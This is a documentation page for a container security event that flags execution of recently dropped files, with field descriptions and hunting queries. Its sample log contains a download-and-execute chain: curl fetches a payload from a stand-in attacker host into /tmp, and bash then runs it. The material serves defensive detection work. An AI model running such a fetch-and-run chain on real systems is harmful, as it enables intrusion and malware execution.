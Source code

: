 ## RecentlyModifiedFileExecutedInContainer Table: Recently Modified File Execution Event

### 1. Table Name
**RecentlyModifiedFileExecutedInContainer**

---

### 2. Table Usage
This event is generated when a file that was recently created or modified inside a container is executed. This is a common attack pattern where an adversary drops a payload or script into a container and then immediately executes it. Monitoring this behavior is crucial for detecting container-based threats, such as cryptojacking, reverse shells, or other malicious activities.

---

### 3. Important Parameter Description

| Parameter | Description | Platforms Affected |
|---|---|---|
| ImageFileName | The full path to the executable that was run (e.g., `/bin/bash`). | Linux, Falcon Container |
| CommandLine | The full command line used to execute the recently modified file. | Linux, Falcon Container |
| ParentImageFileName | The full path to the parent process that spawned the process which executed the file (e.g., `/usr/bin/curl`). | Linux, Falcon Container |
| ParentCommandLine | The command line of the parent process. | Linux, Falcon Container |
| TargetFileName | The path to the recently modified file that was executed. | Linux, Falcon Container |

---

### 4. Sample Log Example

```json
{
  "ImageFileName": "/bin/bash",
  "CommandLine": "/bin/bash /tmp/payload.sh",
  "ParentImageFileName": "/usr/bin/curl",
  "ParentCommandLine": "curl [http://evil-domain.com/payload.sh](http://evil-domain.com/payload.sh) -o /tmp/payload.sh",
  "TargetFileName": "/tmp/payload.sh"
}
```

---

### 5. Example Queries

```xql
// Find all instances of recently modified files being executed in containers
event_simpleName=RecentlyModifiedFileExecutedInContainer

// Hunt for scripts being executed from common temporary or writable directories
event_simpleName=RecentlyModifiedFileExecutedInContainer TargetFileName="/tmp/*" OR TargetFileName="/var/tmp/*"

// Find recently modified files that were executed by a shell
event_simpleName=RecentlyModifiedFileExecutedInContainer ImageFileName IN ("/bin/bash", "/bin/sh")

// Investigate what files are being executed immediately after being downloaded by curl or wget
event_simpleName=RecentlyModifiedFileExecutedInContainer ParentImageFileName IN ("/usr/bin/curl", "/usr/bin/wget")

// Look for specific suspicious file names being executed
event_simpleName=RecentlyModifiedFileExecutedInContainer TargetFileName="*payload*" OR TargetFileName="*shell*"
```
---